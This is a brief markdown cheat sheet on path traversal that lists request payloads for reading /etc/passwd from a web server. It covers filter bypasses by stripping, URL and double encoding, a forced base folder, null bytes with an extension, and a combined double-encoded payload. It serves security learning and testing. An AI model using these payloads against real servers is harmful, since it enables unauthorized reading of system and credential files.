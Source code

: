 # Path traversal

## General info

* `<img src="/loadImage?filename=218.png">`
* An attacker can request the following URL to retrieve the /etc/passwd file from the server's filesystem
* `https://insecure-website.com/loadImage?filename=../../../etc/passwd`
* On Windows, both `../` and `..\` are valid directory traversal sequences

## Bypass defences

* elimination (strip): `../` -> `....//`
  * Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* encode: `%2e%2e%2f`
* double-encode: `%252e%252e%252f`
* require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* others

## Tips

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist exstension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`
